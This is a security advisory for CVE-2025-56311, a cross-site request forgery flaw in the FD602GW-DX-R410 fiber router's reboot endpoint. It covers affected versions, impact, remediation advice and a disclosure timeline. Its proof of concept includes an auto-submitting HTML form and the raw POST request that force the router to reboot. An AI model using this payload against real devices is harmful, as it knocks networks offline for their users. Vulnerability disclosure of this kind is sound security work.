 

# CVE-2025-56311: Security Advisory – CSRF Vulnerability in FD602GW-DX-R410 Router Reboot Function

Proof of Concept and Security Advisory for a Cross-Site Request Forgery (CSRF) vulnerability in the FD602GW-DX-R410 fiber router’s admin interface (Firmware V2.2.14). The advisory outlines the impact, attack vector, and recommendations for remediation.

# fd602gw-dx-r410-csrf-advisory
CSRF vulnerability in FD602GW-DX-R410 router allows remote attackers to reboot the device via a crafted POST request to /boaform/admin/formReboot when an admin is authenticated.


---

## Overview

A Cross-Site Request Forgery (CSRF) vulnerability was discovered in the FD602GW-DX-R410 fiber router’s web-based admin console (Firmware V2.2.14). The `/boaform/admin/formReboot` endpoint allows POST requests to trigger a full device reboot without CSRF tokens or origin validation. If an authenticated administrator visits a malicious page, the router can be remotely rebooted without consent.

* **CVE ID:** CVE-2025-56311
* **Advisory Publication Date:** July 2025
* **Discovered by:** Hasanka Amarasinghe (Independent Security Researcher)
* **Vendor:** Shenzhen C-Data Technology Co., Ltd.
* **Product Affected:** FD602GW-DX-R410 Fiber Router
* **Firmware Version:** V2.2.14 (Build.1918.241111)
* **Hardware Version:** R410.1B
* **Bootloader Version:** V3.7-2312181457
* **Web Server:** Boa/0.93.15
* **Access Vector:** Remote (Authenticated admin must be logged in)
* **Severity:** Medium
* **CVSS v3.1 Base Score:** 5.4 (Medium)

--- 

## Affected Product

* **Device:** FD602GW-DX-R410 Fiber Router
* **Firmware:** V2.2.14 (Build.1918.241111)
* **Component:** Reboot Handler - `/boaform/admin/formReboot`
* **Web Server:** Boa/0.93.15

---

## Vulnerability Details

* **Type:** Cross-Site Request Forgery (CSRF)
* **Attack Vector:** Remote (admin must be logged in to their session)
* **Authentication:** None required for the attacker (admin session required on victim browser)
* **Impact:** Unauthorized reboot of the device
* **State Persistence:** Stateless session, likely tracked via IP or internal session tokens

---

## Proof of Concept (PoC)

### CSRF Payload (HTML)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Pro -->
  <body>
    <form action="http://192.168.1.1/boaform/admin/formReboot" method="POST">
      <input type="hidden" name="postSecurityFlag" value="+65535" />
      <input type="submit" value="Submit" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### HTTP Request

```http
POST /boaform/admin/formReboot HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

postSecurityFlag=+65535
```

### Response

HTTP 200 OK; Router reboots immediately.

---

## Recommendations

* Implement CSRF tokens and strict Origin/Referer validation on all admin endpoints.
* Invalidate stale or orphaned sessions and bind sessions to secure cookies.
* Consider CAPTCHA or confirmation prompts before executing destructive actions like reboot.
* Restrict admin interface access to trusted IPs or internal networks only.

---

## Attack Vector

* Requires the router administrator to be authenticated (logged in).
* An attacker lures the victim to visit a malicious webpage which silently triggers a POST request to the reboot endpoint.
* The router accepts the forged request and reboots immediately, causing denial of service.

---

## Impact

* Denial of service due to forced reboot.
* Loss of network availability for all connected users.
* Possibility to chain with other issues (e.g., session hijack or XSS) to elevate impact.

---

## Disclosure Timeline

| Date     | Action                                      |
| -------- | ------------------------------------------- |
| Jun 2025 | Vulnerability discovered                    |
| Jun 2025 | Attempted responsible disclosure (no reply) |
| Jul 2025 | CVE ID requested from MITRE                 |
| Jul 2025 | Advisory prepared and pending publication   |
| Sep 2025 | CVE Assigned, Advisory made public          |

---

## References

* Vendor: Shenzhen C-Data Technology Co., Ltd.
* Device: FD602GW-DX-R410
* Firmware: V2.2.14
* GitHub Advisory: https://github.com/wrathfulDiety/CVE-2025-56311

---

## Disclaimer

This advisory is provided for educational and security awareness purposes. The author bears no responsibility for misuse. All testing was performed in a controlled environment.


